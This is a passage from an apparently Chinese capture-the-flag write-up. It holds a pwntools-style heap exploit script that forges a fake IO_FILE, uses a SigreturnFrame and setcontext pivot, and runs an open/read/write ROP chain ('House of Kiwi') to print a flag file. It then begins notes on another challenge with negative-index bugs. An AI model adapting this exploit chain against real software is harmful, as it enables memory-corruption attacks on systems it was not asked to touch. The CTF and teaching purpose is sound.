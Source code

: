 ```python
fake_IO_FILE += p64(chunk2 + 0x10)  # rdi# payload
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(ROL(gadget_addr ^ (chunk0), 0x11))

fake_frame_addr = chunk2+0x10
frame = SigreturnFrame()
frame.rdi = fake_frame_addr + 0xF8# ./flag
frame.rsi = 0
frame.rdx = 0x100
frame.rsp = fake_frame_addr + 0xF8 + 0x10
frame.rip = pop_rdi_addr + 1  # : ret

rop = [
    pop_rax_addr,  # sys_open('flag', 0)
    2,
    syscall_addr,
  
    pop_rax_addr,  # sys_read(flag_fd, heap, 0x100)
    0,
    pop_rdi_addr,
    3,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr,

    pop_rax_addr,  # sys_write(1, heap, 0x100)
    1,
    pop_rdi_addr,
    1,
    pop_rsi_addr,
    fake_frame_addr + 0x200,
    syscall_addr
]
payload = p64(0) + p64(fake_frame_addr) + '\x00' * 0x10 + p64(setcontext_addr + 61)
payload += str(frame).ljust(0xF8, '\x00')[0x28:] + 'flag'.ljust(0x10, '\x00') + flat(rop)

edit(0, fake_IO_FILE)
edit(2, payload)

add(8, 0x450)  # House OF Kiwi
run_opcode()

p.interactive()
```

### emma(bss段stderr/2.33uaf)

![image-20220613094358309](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220613094358309.png)

漏洞点在4个功能 idx都可以负数越界
